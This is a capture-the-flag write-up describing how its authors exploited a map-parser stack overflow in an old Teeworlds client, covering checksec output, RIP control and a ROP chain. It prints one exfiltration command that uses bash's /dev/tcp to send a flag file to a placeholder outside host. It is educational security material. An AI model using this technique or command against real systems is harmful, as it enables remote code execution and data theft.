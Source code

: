 # Teewars&emsp;<sub><sup>Clone-and-Pwn, 378 points</sup></sub>

_Writeup by [@bluepichu](https://github.com/bluepichu) and [@f0xtr0t](https://github.com/jaybosamiya)_

> Let's have some fun with Teeworlds! Not play it but pwn it!

The [download for this problem](./TeeWars_d9ca7fdb4fa0225315ba4407c1b83896.tar.gz) contained a Dockerfile that pulls [Teeworlds](https://github.com/teeworlds/teeworlds) and runs the client pointed at an IP address of our choosing (the other two files were a small runner, and a pre-built copy of the executable).  Note that it disables multiple, so it shouldn't be too hard to pwn it with instruction-pointer control:

```
$ checksec teeworlds
[*] '/pwn/teewars/teeworlds'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'/usr/local/lib:'
```

Since this is an open-source project on GitHub, the first thing we did was search for issues and pull requests that mentioned security issues.  Searching for "overflow" turned up [this issue](https://github.com/teeworlds/teeworlds/issues/2981) that mentioned a stack buffer overflow in the map parser.  Although [a PR to fix it](https://github.com/teeworlds/teeworlds/pull/3018) had already been merged, we noticed that it was merged in February 2022, well after the release used by the problem (from April 2020).  This made it a very good candidate to attack, and a quick test with the map file from the issue segfaulted the client and confirmed it was still vulnerable.

Although the original reporter [had a full exploit chain](https://mmmds.pl/fuzzing-map-parser-part-1-teeworlds/#exploit) for this bug, it didn't seem to be published anywhere, so it was up to us to reproduce it.  The POC posted with the issue unhelpfully segfaulted the client by attempting to write beyond the stack, so the first step was to figure out how to make overwrite part of the stack without crashing by modifying the POC map.

The only documentation we could find on the map format was [from the docs of a Python library made for parsing it](https://sushitee.github.io/tml/mapformat.html), but that ultimately gave us enough information to manually walk through the format.  We knew that the bug was a bad bounds check in [this loop](https://github.com/teeworlds/teeworlds/blob/0.7.5/src/game/client/components/maplayers.cpp#L257), so we needed to look for somewhere in the map where the number of envpoints on an item was set to a large number, and set it to something smaller.  Checking the diff of the POC map with `ctf1.map`, which it was based on, only had a few results, only one of which looked like a numeric change; turning down the number of envpoints made us start segfaulting at a different RIP, meaning that we were successfully overwriting the return address!  A little bit of experimentation later, and we had full control over RIP!

Since this is a stack-based overflow, which copies in essentially everything we provide onto the stack, but NX is enabled, naturally we decide to write a ROP chain. Our ROP chain sets up an `execve("/bin/bash", {'/bin/bash', '-c', 'cat</home/rwctf/flag>/dev/tcp/XXX.XXX.XXX.XXX/YYYYY'}, NULL)` syscall and executes it. This payload uses bash's built-in `/dev/tcp/<IPADDRESS>/<PORT>` to send the flag over TCP to our server (at XXX.XXX.XXXX.XXXX which is running `nc -l -p YYYYY`). To set up the space necessary for the array of strings, and the array of pointers to the strings, we just picked an arbitrary point in the process's memory (since there is no PIE on this binary, we can just pick an arbitrary read/write region without needing to worry about things), and there were plenty of useful gadgets all across the binary to choose from. Our ropchain generator can be found in [ropchain.py](./ropchain.py), whose output we plugged directly into the version of the map where we had got control over RIP.

Our final exploit map is in [pwn.map](./pwn.map), and we set up the server to serve it using the configuration in [docker-compose.yml](./docker-compose.yml).
